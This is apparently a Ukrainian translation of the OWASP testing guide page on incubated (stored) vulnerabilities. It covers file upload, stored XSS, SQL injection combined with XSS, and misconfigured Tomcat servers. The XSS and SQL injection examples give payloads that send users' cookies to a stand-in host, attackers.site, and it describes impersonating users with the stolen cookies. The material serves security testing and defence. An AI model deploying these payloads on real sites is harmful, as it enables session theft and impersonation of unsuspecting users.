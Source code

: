 # Тестування на інкубовану вразливість

# Резюме

Інкубоване тестування, яке також часто називають персистентними атаками, - це складний метод тестування, для роботи якого потрібна більш ніж одна вразливість для перевірки даних. Інкубовані вразливості зазвичай використовуються для проведення атак типу "водопій" проти користувачів легальних веб-додатків.

Інкубовані уразливості мають наступні характеристики:

- По-перше, вектор атаки повинен бути збережений, він повинен зберігатися на рівні збереження, а це можливо лише за наявності слабкої перевірки даних або якщо дані надійшли в систему через інший канал, наприклад, консоль адміністратора або безпосередньо через внутрішній пакетний процес.
- По-друге, після того, як вектор атаки був "викликаний", його потрібно було б успішно виконати. Наприклад, інкубована XSS-атака вимагатиме слабкої перевірки вихідних даних, тому скрипт буде доставлений клієнту у виконуваному вигляді.

Використання деяких вразливостей або навіть функціональних особливостей веб-додатку дозволить зловмиснику підкинути фрагмент даних, який згодом буде отриманий користувачем, який нічого не підозрює, або іншим компонентом системи, використовуючи певну вразливість.

Під час тУ тесті на проникнення ```інкубовані атаки``` можна використовувати для оцінки критичності певних помилок, використовуючи знайдену проблему безпеки для побудови атаки на стороні клієнта, яка зазвичай буде спрямована на велику кількість жертв одночасно (тобто на всіх користувачів, які переглядають сайт).

Цей тип асинхронних атак охоплює широкий спектр векторів атаки, серед яких можна виділити наступні:

- Компоненти завантаження файлів у веб-додатку, що дозволяють зловмиснику завантажувати пошкоджені медіа-файли (JPEG-зображення, що експлуатують ```CVE-2004-0200```, PNG-зображення, що експлуатують ```CVE-2004-0597```, виконувані файли, сторінки сайту з активним компонентом і т.д.).
- Проблеми міжсайтового скриптингу в повідомленнях на публічних форумах (більш детальну інформацію можна знайти в розділі [Тестування на наявність збереженого міжсайтового скриптингу](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)). Зловмисник може зберігати шкідливі скрипти або код у репозиторії у внутрішній частині веб-додатку (наприклад, у базі даних), щоб цей скрипт/код міг бути виконаний одним із користувачів (кінцевими користувачами, адміністраторами тощо). Прикладом архетипової інкубованої атаки є використання міжсайтової скриптової вразливості на форумі користувача, дошці оголошень або блозі для того, щоб впровадити певний JavaScript-код на вразливій сторінці, який в кінцевому підсумку буде відображений і виконаний в браузері користувача сайту - з використанням рівня довіри до оригінального (вразливого) сайту в браузері користувача.
- SQL/XPATH ін'єкції, що дозволяють зловмиснику завантажити вміст до бази даних, який пізніше буде отримано як частину активного вмісту на веб-сторінці. Наприклад, якщо зловмисник може розмістити довільний JavaScript на дошці оголошень, щоб він виконувався користувачами, то він може отримати контроль над їхніми браузерами (наприклад, [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).
- Неправильно налаштовані сервери, що дозволяють встановлювати пакети Java або подібні компоненти веб-сайтів (наприклад, Tomcat, або консолі веб-хостингу, такі як Plesk, CPanel, Helm тощо).

# Цілі тестування

- Ідентифікувати ін'єкції, які зберігаються і потребують етапу відкликання до збереженої ін'єкції.
- Зрозуміти, як може відбуватися етап виклику.
- Якщо можливо, налаштувати слухачів або активувати крок нагадування.

# Як тестувати

## Тестування чорного ящика

### Приклад завантаження файлу

Перевірте тип вмісту, дозволений для завантаження у веб-додаток, і URL-адресу для завантаженого файлу. Завантажте файл, який буде експлуатувати компонент на локальній робочій станції користувача при перегляді або завантаженні користувачем. Надішліть жертві електронного листа або іншого виду сповіщення, щоб змусити її/його переглянути сторінку. Очікуваний результат - експлойт спрацює, коли користувач перегляне отриману сторінку або завантажить і запустить файл з довіреного сайту.

### Приклад XSS на дошці оголошень

1. Введіть код JavaScript як значення для вразливого поля, наприклад<br>```<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>```
2. Направте користувачів переглянути вразливу сторінку або зачекайте, поки користувачі самі її переглянуть. Майте “прослуховувача” на хості ```attackers.site```, який очікує на всі вхідні з’єднання.
3. Коли користувачі переглядають вразливу сторінку, запит, що містить їхній cookie (```document.cookie``` включений як частина запитуваного URL), буде надіслано на хост ```attackers.site```, наприклад: ```GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE; HTTP/1.1```
4. Використовуйте отримані cookies для імітації користувачів на вразливому сайті.

### Приклад SQL ін'єкції

Зазвичай цей набір прикладів використовує атаки XSS, експлуатуючи вразливість SQL-ін'єкції. Перше, що потрібно перевірити - чи має цільовий сайт вразливість SQL-ін'єкції. Це описано у [Тестування на SQL-ін'єкцію](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection). Для кожної вразливості SQL-ін'єкції існує набір обмежень, які описують тип запитів, які нападник/тестувальник має право робити.

Потім тестувальник повинен зіставити розроблені ним XSS-атаки з записами, які йому дозволено вставляти.

У подібний спосіб, як у попередньому прикладі XSS, використовуйте поле веб-сторінки, яке вразливе до проблем SQL-ін'єкцій, щоб змінити значення в базі даних, яке буде використовуватися додатком як вхід, щоб відобразити на сайті без належного фільтрування (це буде комбінація SQL-ін'єкції та XSS-проблеми). Наприклад, припустимо, що в базі даних є таблиця ```footer``` з усіма нижніми колонтитулами для сторінок веб-сайту, включаючи поле ```notice``` з юридичним повідомленням, яке з'являється внизу кожної веб-сторінки. Ви можете використовувати наступний запит для ін'єкції коду JavaScript у поле ```notice``` у таблиці ```footer``` в базі даних.

```
SELECT field1, field2, field3
FROM table_x
WHERE field2 = 'x';
   UPDATE footer
   SET notice = 'Copyright 1999-2030%20
       <script>document.write('<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">')</script>'
   WHERE notice = 'Copyright 1999-2030';
   ```

Тепер кожен користувач, який переглядає сайт, тихо надсилатиме свої cookies на ```attackers.site```.

### Неправильно налаштований сервер

Деякі веб-сервери мають інтерфейс адміністрування, який може дозволити зловмиснику завантажити на сайт активні компоненти на свій вибір. Це може статися у випадку з сервером Apache Tomcat, який не вимагає надійних облікових даних для доступу до свого менеджера веб-додатків (або якщо тестувальники змогли отримати дійсні облікові дані для модуля адміністрування іншими способами).

У цьому випадку можна завантажити WAR-файл і розгорнути новий веб-додаток на сайті, що не тільки дозволить тестувальнику виконувати код на свій вибір локально на сервері, але й розмістити додаток на довіреному сайті, до якого потім зможуть отримати доступ звичайні користувачі сайту (швидше за все, з вищим ступенем довіри, ніж при зверненні до іншого сайту).

Очевидно, що можливість змінювати вміст веб-сторінок на сервері через будь-які вразливості, які можуть бути використані на хості, що дасть зловмиснику права на запис у кореневому каталозі, також буде корисною для розміщення такої інкубованої атаки на сторінках веб-сервера (насправді, це відомий метод розповсюдження інфекції для деяких веб-серверних черв'яків).

### Тестування сірого ящика

Техніки тестування сірого або білого ящика будуть такими ж, як обговорювалося раніше.

- Вивчення перевірки вхідних даних є ключовим для захисту від цієї вразливості. Якщо інші системи на підприємстві використовують той самий рівень збереження, вони можуть мати слабку перевірку вхідних даних, і дані можуть зберігатися через ```чорний хід```.
- Для боротьби з проблемою ```чорного ходу``` для атак на стороні клієнта необхідно також використовувати перевірку вихідних даних, щоб зіпсовані дані кодувалися перед відображенням клієнту, а отже, не виконувалися.

# Інструменти

- [XSS-proxy](https://sourceforge.net/projects/xss-proxy)
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org/)
- [Burp Suite](https://portswigger.net/burp)
- [Metasploit](https://www.metasploit.com/)

# Посилання

Більшість посилань з розділу "Міжсайтовий скриптинг" є актуальними. Як пояснювалося вище, інкубовані атаки виконуються при поєднанні таких експлойтів, як XSS або SQL-ін'єкції.

## Рекомендації

- [CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests](https://resources.sei.cmu.edu/library/asset-view.cfm?assetID=496186)
- [Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability](https://cxsecurity.com/issue/WLB-2006080004)

## Довідковий матеріал

- [Web Application Security Consortium “Threat Classification, Cross-site scripting”](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)
